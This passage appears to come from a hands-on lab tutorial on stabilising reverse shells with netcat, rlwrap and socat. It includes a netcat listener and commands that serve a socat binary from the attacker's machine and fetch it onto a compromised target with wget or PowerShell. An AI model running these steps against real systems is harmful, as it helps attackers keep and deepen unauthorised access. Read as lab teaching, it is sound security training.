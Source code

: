 ![task5-nc](./images/task5-nc.png)

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

<ins>_Technique 2: rlwrap_</ins>

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

<ins>_Technique 3: Socat_</ins>

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.
